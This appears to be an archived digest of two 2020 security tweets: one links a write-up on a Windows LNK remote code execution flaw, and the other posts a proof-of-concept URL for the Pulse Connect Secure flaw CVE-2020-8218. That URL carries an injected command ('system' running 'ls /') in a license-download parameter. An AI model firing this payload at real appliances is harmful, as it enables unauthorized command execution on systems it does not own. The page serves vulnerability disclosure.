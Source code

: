 
---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1289705496266641408 _at 2020-08-01, 23:32:06_**
<blockquote>
[CVE49] Microsoft Windows LNK Remote Code Execution Vulnerability - CVE-2020-1299  https://t.co/R1oLe81oUw  #Windows #Vulnerability #RCE #CVE #LNK #Infosec https://t.co/DTeuz9GZip
</blockquote>

* https://blog.vincss.net/2020/06/cve49-microsoft-windows-lnk-remote-code-execution-vuln-cve-2020-1299-eng.html

<table><tr>
<td><img src="pictures/023a7227629ed1c14f046c50f59ea5057e9ffb813d864eea62b3aa3430f2ae3f.jpg" alt="023a7227629ed1c14f046c50f59ea5057e9ffb813d864eea62b3aa3430f2ae3f.jpg"></td>
<td><img src="pictures/7bdfa09766d36d4ddc56da8cda4a6d184f204d2ac81ed159a3b2f92ca839b292.jpg" alt="7bdfa09766d36d4ddc56da8cda4a6d184f204d2ac81ed159a3b2f92ca839b292.jpg"></td>
<td><img src="pictures/71a708ef5c8da642fc13092d303b4c317da4fdb81c9f751974b15e3ad2d7fbbd.jpg" alt="71a708ef5c8da642fc13092d303b4c317da4fdb81c9f751974b15e3ad2d7fbbd.jpg"></td>
<td><img src="pictures/c317a01d1bfbc503295c49843f2de8e10eb639ed4e7285408be19acf90bef88b.jpg" alt="c317a01d1bfbc503295c49843f2de8e10eb639ed4e7285408be19acf90bef88b.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>37</code></td>
<td>Favorites: <code>68</code></td>
</tr></table>

---

# jas502n
**https://twitter.com/jas502n/status/1300245292508307456 _at 2020-08-31, 01:33:29_**
<blockquote>
RCE in Pulse Connect Secure RCE (CVE-2020-8218) &lt; v9.1R8

POC:
https://x.x.x.x/dana-admin/license/downloadlicenses.cgi?cmd=download&amp;txtVLSAuthCode=whatever%20-n%20%27($x=%22ls%20/%22,system$x)%3b%20%23%27%20-e%20/data/runtime/tmp/tt/setcookie.thtml.ttc
 https://t.co/u56yPrxO6R
</blockquote>

* https://www.gosecure.net/blog/2020/08/26/forget-your-perimeter-rce-in-pulse-connect-secure/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>77</code></td>
<td>Favorites: <code>147</code></td>
</tr></table>

---

